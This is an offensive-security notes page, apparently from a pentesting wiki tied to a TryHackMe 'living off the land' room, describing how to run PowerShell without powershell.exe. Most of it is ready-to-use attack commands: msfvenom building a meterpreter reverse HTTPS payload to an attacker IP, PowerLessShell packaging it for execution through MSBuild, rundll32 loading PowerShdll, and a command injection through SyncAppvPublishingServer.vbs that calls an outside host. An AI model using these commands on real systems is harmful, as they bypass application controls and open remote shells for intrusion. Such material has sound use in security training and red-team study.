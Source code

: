 # Powershell Without Powershell.exe

## Theory
Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it. If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## Practice


{% tabs %}
{% tab title="PowerLessShell" %}
[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git) is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.
```bash
#Generate a malisious powershell script
v4resk@kali$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1

#Generate a .csproj with PowerLessShell
v4resk@kali$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj

#Execute it on the target with MSBuild.exe
C:\Users\thm> c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```
{% endtab %}
{% tab title="PowerShdll" %}
We can load powerShdll with rundll32.exe to gain a shell
```bash
C:\Users\v4resk> rundll32.exe PowerShdll.dll,main
```
{% endtab %}

{% tab title="SyncAppvPublishingServer" %}
Windows 10 comes with SyncAppvPublishingServer.exe and SyncAppvPublishingServer.vbs that can be abused with code injection to execute powershell commands from a Microsoft signed script:
```bash
C:\Users\v4resk> SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}
{% embed url="https://www.ired.team/offensive-security/code-execution/powershell-without-powershell" %}
